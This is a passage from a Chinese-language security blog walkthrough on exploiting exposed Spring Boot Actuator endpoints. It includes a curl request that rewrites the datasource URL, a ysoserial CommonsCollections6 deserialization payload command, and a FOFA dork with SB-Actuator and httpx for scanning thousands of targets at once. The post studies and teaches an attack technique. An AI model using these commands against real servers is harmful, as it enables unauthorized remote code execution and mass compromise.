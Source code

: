 关于这个，其实在真实环境中，都不用自己去触发，自带的其他操作都会导致进行数据库连接。

**(4)恢复Spring.datasource.url**

当我们获得RCE之后，前面记录的本来的jdbc url就可以还原回去了，操作如下。

```
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc:mysql://127.0.0.1:3306/test' http://localhost:9097/actuator/env
```

最终，在测试过程，我发现，有请求访问伪造的mysql服务，但是Spring-boot进程却在序列化的过程中报错退出了，导致命令没有执行成功。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620112049-829d34ee-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620112049-829d34ee-d176-1.png)

这个是jdk版本导致的，改用cc6来解决

```
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections6 ' open -a Calculator.app' > payload.ser
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620112106-8cdb9194-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620112106-8cdb9194-d176-1.png)

#### 5.More ...

还有很多关于这个利用，发现过程主要是Fuzz一些依赖暴露出的端点，然后深入利用，后面会掺杂来谈谈。

0x5 漏洞检测
--------

(1) 收集目标，为了方便演示使用FoFa收集目标。

```
FOFA Dork: body="Whitelabel Error Page" && country="CN"
```

(2)使用SB-Actuator, 代码实现可以自己去尝试改进下，第二个选择是nuclei但是没这个覆盖全面,但是支持自己继续定义。

```
git clone https://github.com/rabbitmask/SB-Actuator.git
```

(3) 检测结果

获取1w的目标，然后http检测保存为200.txt

```
cat target.txt | httpx -o 200.txt
```

接着执行`python3 SB-Actuator.py -f 200.txt`,结果如下所示:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210620112340-e864d73c-d176-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210620112340-e864d73c-d176-1.png)

这种针对性检测的话，成功率本身就是比较高的，但是测试的时候记得要授权，遵纪守法!

0x6 总 结
-------

